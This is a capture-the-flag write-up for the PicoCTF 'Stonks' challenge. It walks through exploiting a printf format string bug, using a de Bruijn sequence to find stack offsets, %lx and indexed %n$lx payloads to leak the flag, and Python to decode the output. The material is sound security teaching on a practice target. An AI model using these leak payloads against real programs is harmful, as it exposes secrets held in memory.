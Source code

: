 # PicoCTF: Stonks

[Original challenge *(requires login)*](https://play.picoctf.org/practice/challenge/105)

## Finding the vulnerability

I knew going into this that the vulnerability would be a `printf` format string-related one, which is pretty familiar territory for me.
When I set up my environment for the challenge, this was confirmed:

```
; gcc -Wall -Wextra vuln.c -o vuln.exe
stonks/vuln.c: In function ‘buy_stonks’:
stonks/vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
# (omitted some unused variable warnings)
```

Just goes to show: Always compile with warnings.
It could have saved this dev from making this mistake.

It also saved *me* from having to dig for the vulnerable line, since it's... right there.
A very quick check shows that it's user input from when you're prompted to enter your API token:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The way this vulnerability is gonna work is pretty simple:
Because they called `printf` with *our input* as the format string, we can slide some `%lx`s in there.
Arguments to variadic functions like `printf` are passed on the stack, so any format specifiers we put in there will read data off the stack, and conveniently, that's where the flag is sitting:

```c
// FLAG_BUFFER == 128
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
  printf("Flag file not found. Contact an admin.\n");
  exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

So it's just a matter of finding the right offset to start at, dumping enough to cover the length of the flag, and then parsing it.
Finding the offset is a bit tedious, but by putting a [de Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence in the flag file, it's pretty simple:

```py3
from pwn import *
cyclic_gen(string.digits).get(128)
# => '00001000200030004000500060007000800090011001200130014001500160017001800190021002200230024002500260027002800290031003200330034003'
```

Notice I picked `string.digits`: I'm gonna be looking at hex, and the byte value for each digit is just `0x30` plus that digit, which makes it easier to read.

## Testing and building

So now we build a format string.
I'm going to be using `%lx`, printing out `long`s as hex, and I'm gonna use 20, separated by `.`.
You could also do 20 `%016lx`; I just prefer the dots because I find it easier to reason about endianness if I can clearly see the chunks delimited.
Note the `l` in both, though: On my system, all arguments are treated as at least 8 bytes wide, and `%x` only prints out the last 4 of those bytes.
That's part of why I picked a de Bruijn sequence; it's long enough to fill up a lot of space while still being pretty easy to tell if anything is missing.

When we pass in the format string, we get out:

```
What is your API token?
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
Buying stonks with token:
7fe6f1a9b723.0.7fe6f19c01e7.1a.7fffffff.7ffcf52f0a40.556f3c9ac2a0.200000000.556f3c9ac6d0.556f3c9ad9e0.556f3c9ada00.3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035.3130303831303037
```

And we see, starting at 'argument' 12, our de Bruijn sequence: `3030303130303030` is `00010000`, which is the first eight bytes backwards.

## Cleaning it up

Now that we have our offsets, we can use a less brute-force approach and target the exact indices we actually want:

```py3
# flag is max. 128 bytes long, %lx prints 8 bytes per format specifier
'.'.join(f'%{i}$lx' for i in range(12, 12 + (128//8)))
# => %12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
```

The `%n$` syntax is a non-standard extension, but the server supports it, so it's fair game.
It lets us get an argument by index, rather than having to go through all of the arguments before it, and it makes parsing the output just a little easier.
It's not necessary, though, if your target doesn't support it.

```
What is your API token?
%12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
Buying stonks with token:
3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035
```

This output is pretty simple to parse:

```py3
resp = # ...
chunks = resp.split(b'.')
nums = (int(c, 16) for c in chunks)
byteses = (i.to_bytes(8, 'little') for i in nums)
flag_bytes = b''.join(byteses)[:MAX_FLAG]
flag = flag_bytes.decode('utf-8')
```

In order, that:

- Splits our period-separated chunks into just the chunks
- Parses each as an integer
- Converts that integer to little-endian bytes (this may need to be tweaked to work when running locally)
- Joins all the chunks of bytes together
- Converts that to text

Which gets us our flag!
It could also have been a "one-liner", but I chose to break it into small steps to make it easier to see, step by step, what was going on.

My [actual solution](./crack.py) has some extra bits to be self-contained; as long as you have a C compiler on your system accessible as `cc` -- which, after installing any C compiler on a Linux system, you should -- it'll compile `vuln.c`, copy your flag file next to it, and run it, all on its own.
It also of course includes the machinery to dump the stack on its own.
It *also* includes some extra machinery to handle the differences between my local machine and the server, trim the flag at the first null, etc.
But the bulk of the work, the actual reverse-engineering and exploitation, is what I've described in this post.
